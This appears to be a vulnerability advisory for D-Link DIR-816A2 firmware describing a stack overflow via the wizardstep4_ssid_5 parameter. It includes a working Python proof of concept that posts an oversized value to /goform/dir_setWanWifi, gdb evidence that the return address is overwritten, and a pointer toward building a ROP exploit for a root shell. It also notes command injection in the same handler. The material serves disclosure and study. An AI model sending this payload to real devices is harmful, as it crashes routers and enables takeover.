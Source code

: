 # Affected Version

Dlink DIR-816A2\_FWv1.10CNB05.

# Vulnerability Description

Dlink DIR-816A2\_FWv1.10CNB05 was discovered to contain a stack overflow via parameter wizardstep4\_ssid\_5.

# Firmware download address

Manufacturer's address: <https://www.dlink.com/>

Firmware download address: [D-Link Technical Support (dlink.com.cn)](http://www.dlink.com.cn/techsupport/AllPro.aspx)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/1.png?raw=true)

# Vulnerability Details

From the following, we can see that there are two places where our input parameters wizardstep4\_ssid\_2 and wizardstep4\_ssid\_5 are written into v25 respectively, and there is no length limit. Every time we write our parameters to v25, we perform a doSystem operation, which allows for command injection through both parameters, as we mentioned in the previous article.

Here we focus on v19 and v20, which are respectively written into v25 without length restrictions, which can cause stack overflow. Due to repeated writes into a buffer, we have decided to cause overflow when v20 is written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/7.png?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/8.png?raw=true)

# Recurring vulnerabilities and POC

```python
import requests

url = "http://192.168.1.25/goform/dir_setWanWifi"

data = {
    'connecttype':'DHCP',
    'statuscheckpppoeuser':'0',
    'wizardstep4_ssid_2':'123456',
    'wizardstep4_ssid_5':'a'*1000
}

response = requests.post(url,data=data)
```

The following is the result in gdb after sending POC:

Firstly, execute sprintf to write parameter A to v25, corresponding to the circled part in IDA:

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/9.png?raw=true)

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/10.png?raw=true)

The result returned by sprintf is 0x3fe, indicating that our parameters were successfully written into v25.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/11.png?raw=true)

Continuing with the following execution until the function reaches its end, it can be observed that the return address has been overwritten as' aaaa '.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/12.png?raw=true)

Continuing to run will cause the program to crash.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/13.png?raw=true)

Entering again will result in no response.

![image.png](https://github.com/dkjiayu/Vul/blob/main/Pic/14.png?raw=true)

And you can write your own exp(ROP gadget) to get the root shell.

